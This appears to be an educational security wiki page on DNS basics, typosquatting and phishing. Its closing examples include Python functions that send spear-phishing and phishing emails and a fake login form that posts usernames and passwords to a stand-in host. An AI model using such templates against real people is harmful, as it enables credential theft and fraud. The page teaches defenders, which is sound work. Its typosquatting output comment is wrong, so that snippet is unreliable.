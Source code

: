 ```yaml
---

layout: col-sidebar
title: DNS Attacks_Phishing_TypoSquatting
author: ChennaRao Vemula
contributors: 
External link: https://dev.certping.com/why-ssl
permalink:
tags: DNS, Typosquatting, Phishing

---
```


{% include writers.html %}

## DNS Infrastructure
## What Is DNS
The acronym DNS stands for “Domain Name System”.
To better relate to this you can think of it as an “address book” where you look up a name that is tied to a unique address that you use for communicating with an individual, however this “address book” is for the internet and when you enter a domain name into a browser, it will be translated to the tied unique IP address which it will use to communicate to a machine and serve up content that is hosted on it The process of translating a domain to an IP address is known as a DNS lookup. DNS lookups are performed by dedicated servers called DNS resolvers. Your Wi-Fi router is typically preconfigured to send DNS queries to the resolver owned by your ISP. However, you can choose to configure your router, operating system, or browser to use a different resolver.
## Components of DNS Infrastructure
1.	DNS Servers: These are the backbone of DNS. DNS servers come in various types, such as recursive resolvers and authoritative servers. Recursive resolvers act like your personal investigators, fetching IP addresses on your behalf. Authoritative servers, on the other hand, have the answers. They hold the official records for a specific domain, and they’re the ones you turn to when you need the precise IP address for a particular website.
2.	DNS Resolvers: Think of DNS resolvers as your web browsers’ trusty assistants. When you type in a website address, the resolver is the first to spring into action. It contacts DNS servers to find the IP address for the site you want to visit. This crucial step ensures you reach your desired destination on the web.
The role of DNS records and Zone files:
1.	DNS Records: If DNS is the backbone, DNS records are the words in the backbone’s language. These records store essential information, like IP addresses, mail server data, and aliases. Common record types include A (Address), CNAME (Canonical Name), and MX (Mail Exchange). These records tell DNS servers where to send your requests and emails and how to find websites.
2.	Zone Files: Imagine zone files as the organizers of the DNS library. Each domain has its zone file, which contains records that point to where the data for that domain is stored. These files are managed by domain administrators and provide authoritative DNS servers with the information they need to resolve queries for that domain. Zone files are essential for the smooth operation of DNS.
## Challenges
## Typosquatting
Typosquatting is when someone registers a domain name that is an intentionally misspelled version of another popular website. While many misspelled URLs won’t work or will redirect you, some of these fake websites that look real might be a source of malware, and visiting them could even lead to identity theft. Threat actors create and register domains similar to popular websites but with common typographical errors to exploit unsuspecting users who mistype URLs. The technique is similar to lookalike domains. But unlike lookalike domains in which attackers register domains that look confusingly similar to those of trusted brands typosquatting tries to cash in on users’ clumsiness with their keyboard.
## IP Infringement
Intellectual property (IP) infringement is the unauthorized use of a protected intellectual property right, such as a trademark, patent, copyright, industrial design, plant breeder’s right, or trade secret. Although intellectual-property infringement can be unintentional, it still unacceptable under the eyes of the law. The most common examples of intellectual property disputes include using another person’s words, images, or logo without the property owner’s permission
## Phishing
Phishing is a common type of cyber-attack that targets individuals through email, text messages, phone calls, and other forms of communication. A phishing attack aims to trick the recipient into falling for the attacker’s desired action, such as revealing financial information, system login credentials, or other sensitive information. As a popular form of social engineering, phishing involves psychological manipulation and deception whereby threat actors masquerade as reputable entities to mislead users into performing specific actions. These actions often involve clicking links to fake websites, downloading and installing malicious files, and divulging private information, like bank account numbers or credit card information.

![Phishing](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/Screenshot%202025-01-20%20011021.jpg)
## How does phishing works
Phishing works by sending messages that look like they are from a legitimate company or website. Phishing messages will usually contain a link that takes the user to a fake website that looks like the real thing. The user is then asked to enter personal information, such as their credit card number. This information is then used to steal the person’s identity or to make fraudulent charges on their credit card
                             
![working](https://github.com/PaV1nShAj1/PaV1nShAj1/blob/3b9c75abb93b91ad9320a5d3c9e6121eebb7a9e6/phising.jpg)
## Types of Phishing attacks
## Spear phishing
Spear phishing involves targeting a specific individual in an organization to try to steal their login credentials. The attacker often first gathers information about the person before starting the attack, such as their name, position, and contact details.
## Email Phishing
Email phishing is a common technique used by attackers to trick individuals into providing sensitive information by pretending to be a trustworthy entity.
## Website Phishing
Website phishing is a method used by attackers to create fake websites that mimic legitimate ones to trick users into divulging sensitive information, such as login credentials or financial details.


# Example of TypoSquatting
```python
domain = "legit-website.com"
phishing_domain = domain.replace("i", "l")  # Replacing 'i' with 'l'
print(phishing_domain)  # Outputs: "leglt-website.com"```





# Example of Spear Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_spear_phishing_email(target_name, target_email):
    sender = "fake@legitcompany.com"
    subject = f"Important Update for {target_name}"
    body = f"Dear {target_name},\n\nPlease click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = target_email

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, target_email, msg.as_string())```

# Example of Phishing Email Code
```python
import smtplib
from email.mime.text import MIMEText

def send_phishing_email():
    sender = "fake@legitcompany.com"
    recipient = "victim@example.com"
    subject = "Important Update"
    body = "Please click the link to update your account information: http://fake-website.com"

    msg = MIMEText(body)
    msg['Subject'] = subject
    msg['From'] = sender
    msg['To'] = recipient

    with smtplib.SMTP('smtp.example.com') as server:
        server.login("username", "password")
        server.sendmail(sender, recipient, msg.as_string())

# Example of Website Phishing
```html
<!-- Example of a fake login page -->
<html>
<head>
    <title>Fake Login Page</title>
</head>
<body>
    <h1>Login</h1>
    <form action="http://fake-website.com/submit" method="post">
        <label for="username">Username:</label>
        <input type="text" id="username" name="username"><br>
        <label for="password">Password:</label>
        <input type="password" id="password" name="password"><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>```
 

